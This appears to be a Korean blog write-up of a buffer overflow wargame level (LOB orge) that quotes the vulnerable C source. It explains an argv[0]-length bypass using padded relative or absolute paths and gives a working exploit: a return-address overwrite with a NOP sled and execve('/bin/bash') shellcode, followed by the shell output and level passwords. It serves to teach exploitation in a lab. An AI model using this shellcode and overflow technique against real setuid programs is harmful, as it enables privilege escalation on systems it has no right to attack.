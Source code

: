 ```yaml
---
layout: post
title: "[Wargame] 해커스쿨 BoF LEVEL7 (darkelf -> orge) : check argv[0]"
date: 2015-11-08 16:30
comments: true
categories:  wargame
tags: [bof]
---
```


- id = darkelf 
- pw = kernel crashed 

<!-- more -->

## orge.c

이번 문제는 `argv[0]`인 실행 명령어가 `77` 자가 되어야 한다.  실행 명령어는 `orge` 이기 때문에 이를 `77`가 되도록 해야한다.

```c
/*
        The Lord of the BOF : The Fellowship of the BOF
        - orge
        - check argv[0]
*/

#include <stdio.h>
#include <stdlib.h>

extern char **environ;

main(int argc, char *argv[])
{
        char buffer[40];
        int i;

        if(argc < 2){
                printf("argv error\n");
                exit(0);
        }

        // here is changed!
        if(strlen(argv[0]) != 77){
                printf("argv[0] error\n");
                exit(0);
        }

        // egghunter
        for(i=0; environ[i]; i++)
                memset(environ[i], 0, strlen(environ[i]));

        if(argv[1][47] != '\xbf')
        {
                printf("stack is still your friend.\n");
                exit(0);
        }

        // check the length of argument
        if(strlen(argv[1]) > 48){
                printf("argument is too long!\n");
                exit(0);
        }


        strcpy(buffer, argv[1]);
        printf("%s\n", buffer);

        // buffer hunter
        memset(buffer, 0, 40);
}              
```

실행 명령어를 77자로 만들기 위하여  상대 경로를 이용하여 `./dir/../` 형식으로 글자수를 맞추면 되지 않을까 ?

```bash
> mkdir `python -c 'print "A"*67'` 
> ./AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA/../orge AAAA
stack is still your friend. 
```

그런데, 이상한 것은 직접 실행을 할때에는 명령어 길이 조건 체크를 넘어갔는데, gdb 붙여서 디버깅을 하면 자꾸 너무 길게 나오는 것이다.  좀더 자세하게 보니깐 gdb 에서 상대경로로 실행을 하였으나 절대경로로 입력이 되어 아래와 같이 path 가 잡혀서 77자를 넘어가는 것이었다.

그래서 항상 **변하지 않도록 절대 path 를 사용해서 77자가 되도록 한 후** gdb 로 디버깅을 해보자.

## Exploit

버퍼 사이즈가 40bytes 인데 마지막에 버퍼를 0으로 set 하기 때문에 실제 shellcode 는 argv[2]에서 세팅을 하고, argv[1]에서는 shellcode 를 가르키도록 `LR`을 설정하여 공격하자.

```bash
   [BUFFER 40bytes][SFP][LR]
= [A 44bytes][LR]  [NOP][ShellCode]

$ /home/darkelf/CCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCC/../orge  `python -c 'print "A"*44 + "\x94\xfb\xff\xbf"'`  `python -c 'print "\x90"*150 + "\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80"'`
```

![img](https://raw.githubusercontent.com/humb1ec0ding/humb1ec0ding-etc/master/2015/11/stage7.png)

```bash
$ /home/darkelf/CCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCC/../orge  `python -c 'print "A"*44 + "\x94\xfb\xff\xbf"'`  `python -c 'print "\x90"*150 + "\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80"'`
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
                                             bash: /home/darkelf/.bashrc: Permission denied
bash$ id
uid=506(darkelf) gid=506(darkelf) euid=507(orge) egid=507(orge) groups=506(darkelf)
```

## Next stage

```bash
> bash$ my-pass
euid = 507
timewalker
```
